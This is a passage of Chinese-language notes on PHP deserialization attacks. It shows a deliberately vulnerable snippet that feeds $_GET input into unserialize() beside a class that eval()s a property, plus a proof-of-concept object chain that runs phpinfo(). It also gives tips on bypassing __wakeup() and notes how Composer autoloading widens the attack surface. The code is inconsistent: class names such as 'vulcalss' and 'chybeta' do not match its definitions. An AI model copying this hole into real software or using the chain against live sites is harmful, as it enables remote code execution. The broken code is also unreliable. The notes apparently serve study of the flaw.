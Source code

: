 ```php
        echo "class1";
    }}

class class2 {
    var $test2;
    function action() {
        eval($this->test2);
    }}

$c = new vulcalss();
unserialize($_GET['test']);
?>
```

可以构造这样的对象，传入参数后就可以执行漏洞函数：

```php
<?php
class vulclass {
    var $test;
    function __construct() {
        $this->test = new ph0en2x();
    }
}
class ph0en2x {
    var $test2 = "phpinfo();";
}
echo serialize(new chybeta());
?>
```

很好的文章  
[第一个](https://www.cnblogs.com/youyoui/p/8610068.html)  
[第二个](https://www.anquanke.com/post/id/84922)

#### 绕过__wakeup()函数

（）自定义反序列化字符串，给出的变量个数小于你定义的个数，就会绕过。

[一个实例](https://blog.boyblog.club/2019/07/08/Week-8-C/)  

#### Auto Loading

unserialize() 函数只能反序列化在当前程序上下文中已经被定义过的类，传统编程需要很多include和require，后来出现了autooading技术，自动导入使用的类。  
还有一个东西要提一下,那就是Composer,这是一个php的包管理工具,同时他还能自动导入所以依赖库中定义的类。这样一来 unserialize() 函数也就能使用所有依赖库中的类了,攻击面又增大不少。

1. Composer配置的依赖库存储在vendor目录下
2. 如果要使用Composer的自动类加载机制,只需要在php文件的开头加上 require **DIR** . '/vendor/autoload.php';
